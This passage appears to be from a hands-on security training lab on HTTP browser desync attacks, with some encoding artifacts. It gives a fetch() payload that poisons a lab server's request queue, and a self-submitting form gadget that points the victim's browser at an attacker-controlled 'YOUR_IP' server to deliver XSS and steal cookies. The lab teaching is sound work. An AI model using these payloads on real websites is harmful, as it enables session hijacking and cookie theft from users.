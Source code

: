 You can hack your session by using the following payload from your browser command line.  
  

```python
fetch('http://MACHINE_IP:5000/', {    method: 'POST',    body: 'GET /redirect HTTP/1.1\r\nFoo: x',    mode: 'cors',})
```

1. `http://MACHINE_IP:5000/`  
    This is the URL to which theÂ HTTPÂ request is made for the vulnerable server. In this case, it's the registration endpoint on the local server.
2. `{ method: 'POST' }`TheÂ `method`Â parameter specifies the HTTP method for the request. Here, it's set to 'POST'.
3. `{ body: 'GET /redirect HTTP/1.1\r\nFoo: x' }   `In the body, there is the second request that is going to be injected into the queue.
4. `{ mode: 'cors' }`This flag triggers an error when visiting the 404 web page and avoids following the redirect.

First, letâ€™s start theÂ Virtual MachineÂ by pressing theÂ Start MachineÂ button at the top of this task. The vulnerable website will be running at the port 5000.Â   

Furthermore, this implies that an attacker can obtain complete control over a victim's browser when the specified payload is executed from the victim.

The following screenshots will show an example of the attack using the previous payload.

Â ![Browser Desync Attack Vulnerable Redirect](https://tryhackme-images.s3.amazonaws.com/user-uploads/63c131e50a24c3005eb34678/room-content/d7b193c819734e10a561827cffcfd406.png)



The desync attack involves injecting an arbitrary request into the request HTTP queue. Upon refreshing the page, it redirects to the /redirect endpoint, leading to a 404 error page display since that route is not present.Â   
  

![Browser Desync Attack Connection Poisoned](https://tryhackme-images.s3.amazonaws.com/user-uploads/63c131e50a24c3005eb34678/room-content/6cab09b50ae05a0cb793992a74c82307.png)


# HTTP Browser Desync exploit chaining XSS
---

Based on the considerations outlined in previous tasks, one potential attack vector involves replacing the following request with an arbitrary JavaScript file to execute custom code. However, this strategy necessitates the presence of an arbitrary file upload feature on the website.  
Instead, we can use a rogue server to deliver anÂ XSSÂ attack to steal the cookie from the victim.Â   

We can use the following gadget and deliver it to abuse any component of the web application that allows to reflect text and probably be visited by a user:

```python
<form id="btn" action="http://challenge.thm/"
    method="POST"
    enctype="text/plain">
<textarea name="GET http://YOUR_IP HTTP/1.1
AAA: A">placeholder1</textarea>
<button type="submit">placeholder2</button>
</form>
<script> btn.submit() </script>
```
